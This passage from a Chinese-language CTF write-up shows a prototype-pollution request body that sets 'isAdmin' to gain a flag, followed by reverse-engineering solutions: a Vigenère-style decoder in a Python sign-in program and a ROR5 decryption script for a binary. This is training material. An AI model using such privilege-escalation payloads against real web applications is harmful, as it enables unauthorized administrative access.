Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 37

{
  "__proto__":{"isAdmin": true}
}

// GET /api/system/health/check HTTP/1.1

HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
Date: Sun, 26 Apr 2026 06:37:06 GMT
Connection: keep-alive
Keep-Alive: timeout=5
Content-Length: 63

{"ok":true,"flag":"flag{5af93913-eb57-4269-a0f5-fd8cc1416a99}"}
```

返回载荷中得到 Flag：

```
flag{5af93913-eb57-4269-a0f5-fd8cc1416a99}
```

## 🔍 RE

### 签到

> 签到题一定要能签到

一个 Python 程序

```python title="signin.py"
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

def Il1lI1Il(l1Il1I, I1lI1l):
    lI1Il1 = []
    Il1I1l = len(I1lI1l)
    I1l1Il = [ord(lI)-65 if 65 <= ord(lI) <= 90 else ord(lI)-97 for lI in I1lI1l]
    l1I1lI = [ord(lI) for lI in l1Il1I]
    Il1lI1 = 0
    
    for lI in range(len(l1I1lI)):
        I1 = lI - Il1lI1
        if 65 <= l1I1lI[lI] <= 90:
            l1 = (l1I1lI[lI] - 65 - I1l1Il[I1 % Il1I1l] + 26) % 26
            lI1Il1.append(chr(l1 + 65))
        elif 97 <= l1I1lI[lI] <= 122: 
            l1 = (l1I1lI[lI] - 97 - I1l1Il[I1 % Il1I1l] + 26) % 26
            lI1Il1.append(chr(l1 + 97))
        else:
            lI1Il1.append(chr(l1I1lI[lI]))
            Il1lI1 += 1
    
    return ''.join(lI1Il1)


def check_password(username, password):
    secret_key = "nuaactf"
    encrypted_message = "aoaaemk{Jylcqfj_gi_NUCTHGZ_rexxwfy_wotei_uuve_hns_nhd_epctl!}"
    decrypted_password = Il1lI1Il(encrypted_message, secret_key)
    if password == decrypted_password:
        return True
    return False


def banner():
    print("=" * 50)
    print("    Welcome to 10th NUAA CTF")
    print("=" * 50)
    print()


def main():
    banner()
    
    print("[*] Please sign in to access the flag.")
    username = input("Please enter your username :")
    if not username:
        print("[-] username cannot be empty!")
        return
    print(f"[+] Welcome, {username}!")
    print()
    
    password = input("Please enter your password: ")
    if not password:
        print("[-] Password cannot be empty!")
        return
    print("[*] verifying...")
    if check_password(username, password):
        print("\n" + "=" * 50)
        print("[+] Congratulations! You have successfully signed in.")
        print(f"[+] Here is your flag: {password}")
        print("=" * 50)
    else:
        print("[-] Wrong password, please try again!")


if __name__ == "__main__":
    main()
```

源码都给了，在 `check_password` 函数中加一个对 `decrypted_password` 的输出即可

```hl_lines="12"
> python signin.py
==================================================
    Welcome to 10th NUAA CTF
==================================================

[*] Please sign in to access the flag.
Please enter your username :awa
[+] Welcome, awa!

Please enter your password: qwq
[*] verifying...
nuaactf{Welcome_to_NUAACTF_reverse_world_have_fun_and_enjoy!}

[-] Wrong password, please try again!
```

得到 Flag：

```
nuaactf{Welcome_to_NUAACTF_reverse_world_have_fun_and_enjoy!}
```

---

### 轮盘

> 来自俄罗斯的轮盘

注意到这个函数

```c
int __fastcall sub_1400015E3(const void *a1, int a2)
{
  puts("A deafening ROAR echoes in the chamber. This round, fate was not a friend.");
  if ( a2 != 37 || memcmp(a1, &unk_140012000, 0x25u) )
  {
    puts("As the smoke clears, you realize the flag eludes you still.");
    exit(0);
  }
  return puts(
           "Suddenly, the key glows warmly in your hand. Your stolen pocketwatch flares, its casing meeting the round wit"
           "h a deafening CLANG. ");
}
```

`memcmp(a1, &unk_140012000, 0x25u)` 这里是一系列处理后的密文和 `&unk_140012000` 处的 37 Byte 固定内容进行比对，这说明 `&unk_140012000` 处的内容很可能是 Flag 的加密后内容

此外，逆向出的其他加密函数中只有一些 XOR 函数，ROL / ROR 函数，并没有更加复杂的密码学算法（AES 等）。因此让 LLM 写了个脚本爆破了一下这些可逆操作，最后发现 ROR5 是正确的

```python title="exp.py"
data = [
    0x8D, 0x2C, 0xEC, 0x6F, 0xAC, 0x4F, 0xEB, 0x4E, 0xAC, 0xCE,
    0xAC, 0x4E, 0x6E, 0xAC, 0xEB, 0xED, 0xCC, 0xEB, 0xCC, 0xAE,
    0xCD, 0x6C, 0x8E, 0x2D, 0xED, 0xCD, 0xEB, 0x0E, 0xED, 0x2D,
    0xCD, 0x8E, 0xAC, 0x4E, 0x6E, 0xAF, 0x9B
]

def ror5(b):
    return ((b >> 5) | ((b & 0x1F) << 3)) & 0xFF

result_bytes = [ror5(b) for b in data]

print(''.join(chr(b) if 32 <= b <= 126 else '.' for b in result_bytes))

# Text: lag{ez_reverse_of_function_pointers}.
```

得到 Flag：

```
flag{ez_reverse_of_function_pointers}
```

（Flag 中提到函数指针，是因为程序使用了一个种子固定为 1444 的线性同余生成器，对六个操作函数进行伪随机调用。正解是这么做的，只不过一系列操作后恰好对上 ROR 5 了）

---

## Appendix

给队友跪下了，PWN 题被一个专攻二进制漏洞的队友 AK 了，难一点的题目被队长解决了

左上角那个贡献最少的就是我😭


